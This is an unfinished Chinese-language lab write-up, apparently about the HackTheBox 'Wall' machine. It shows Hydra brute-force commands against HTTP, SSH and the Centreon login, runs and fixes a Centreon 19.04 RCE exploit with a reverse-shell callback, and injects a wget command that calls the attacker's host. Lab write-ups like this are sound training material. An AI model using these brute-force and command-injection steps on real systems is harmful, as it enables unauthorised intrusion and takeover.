 ```yaml
---
title: Wall-rce与绕过waf(上)
categories:
- training
tags:
- training
---
```

参考资料：
- [http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/](http://tylerrockwell.github.io/defeating-basic-auth-with-hydra/)

- [apache Modsecurity waf绕过](https://www.cnblogs.com/rainy-shurun/p/5374789.html)

- [https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/](https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)

最近太忙了ORZ，这篇没做完...

## enumeration
22，80

Apache/2.4.29 (Ubuntu) Server 

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/1.PNG)
说明用户名可能是admin

```
cd /usr/share/wordlists
 hydra -l admin -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring

 hydra -l admin -P 3000-pass.txt -s 80 -f 10.10.10.157 http-get /monitoring
 hydra -l panel -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring
 hydra -l aa -P rockyou.txt -s 80 -f 10.10.10.157 http-get /monitoring
```
## ssh
OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/6.PNG)

---
searchsploit -m exploits/linux/remote/45233.py
python 45233.py（type error代码错误）

searchsploit -m exploits/linux/remote/45210.py
python 45210.py (TypeError)

searchsploit -m exploits/linux/remote/45939.py
python 45939.py --port 22 10.10.10.157 root（TypeError: an integer is required）

---
hydra -l admin -P rockyou.txt 10.10.10.157 ssh

## web

### enumeration
dirb http://10.10.10.157 -X .php
存在的目录
http://10.10.10.157/aa.php
http://10.10.10.157/monitoring/
http://10.10.10.157/panel.php
http://10.10.10.157/centreon

nikto -h http://10.10.10.157
GET, POST, OPTIONS, HEAD 

---
未发现目录遍历

10.10.10.157/monitoring/../panel.php

跳转到panel.php

10.10.10.157/monitoring/../../../../../../../../../etc/passwd
无效

---

get改post请求，绕过登陆页面。

![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/7.PNG)

searchsploit centreon

searchsploit -m exploitdb/exploits/php/webapps/47069.py
v. 19.04.0

[exp下载地址](https://gist.githubusercontent.com/mhaskar/c4255f6cf45b19b8a852c780f50576da/raw/f50ab5b4582986ca595055e53417bc2dfce1838e/centreon-exploit.py)

![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/8.PNG)

![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/9.PNG)

`python3.6 47069.py http://10.10.10.157/centreon admin passwd1 10.10.14.10 1330`

执行后报错，于是修改exp。

```
。。。。。。
  poller_soup = BeautifulSoup(poller_html)
Traceback (most recent call last):
  File "47069.py", line 57, in <module>
    poller_token = poller_soup.findAll('input')[24].get("value")
IndexError: list index out of range
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/10.PNG)

poller_token = poller_soup.find('input', {'name': 'centreon_token'}).get('value')

![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/11.PNG)

python3 centreon-exploit.py http://10.10.10.157/centreon admin passwd1 IP 8080

反弹shell失败

修改后，无报错的exp地址：[https://github.com/Whale3070/ctf-coding/blob/master/47069.py](https://github.com/Whale3070/ctf-coding/blob/master/47069.py)

## 绕过waf

python3 47069.py http://10.10.10.157/centreon admin password1 10.10.14.18 8081

---
http://10.10.10.157/centreon/Themes/Centreon-2/

![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/12.PNG)
目录遍历漏洞

---
+ http://10.10.10.157/centreon/a.php (CODE:200|SIZE:1)                                                   
+ http://10.10.10.157/centreon/index.php (CODE:200|SIZE:3091)                                            
+ http://10.10.10.157/centreon/main.php (CODE:302|SIZE:0)   
http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1
nagios_bin参数

http://10.10.10.157/centreon/main.get.php?p=60901
http://10.10.10.157/centreon/include/configuration/configGenerate/xml/generateFiles.php

---
测试命令执行是否成功，修改payload为
```
wget http://10.10.14.10:888/1.txt #
```
失败
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/13.PNG)

---

```
hydra -L /usr/share/wordlists/rockyou.txt  -P /usr/share/wordlists/rockyou.txt -V -s 80 

10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect."

hydra -l centreon  -P /usr/share/wordlists/rockyou.txt -V -s 80 10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect."

hydra -l admin  -P /usr/share/wordlists/rockyou.txt -V -s 80 10.10.10.157 http-post-form "/centreon/index.php:useralias=^USER^&password=^PASS^&submitLogin=Connect&centreon_token=d9ab2ad282b929cf8f32486cee14da85:Your credentials are incorrect." -t 4

admin/password1
centreon/#1bitch
```

## 存在的漏洞

centreon 19.04 rce
后台弱口令
apache目录遍历

## 根据python exp手动利用漏洞
19.04 版本漏洞
[https://www.cvedetails.com/vulnerability-list/vendor_id-7565/product_id-12778/version_id-303583/Centreon-Centreon-19.04.0.html](https://www.cvedetails.com/vulnerability-list/vendor_id-7565/product_id-12778/version_id-303583/Centreon-Centreon-19.04.0.html)

开启burp，首先访问http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1

![17](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/17.PNG)

![16](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-09-09/16.PNG)
注意图中的testpath

待续
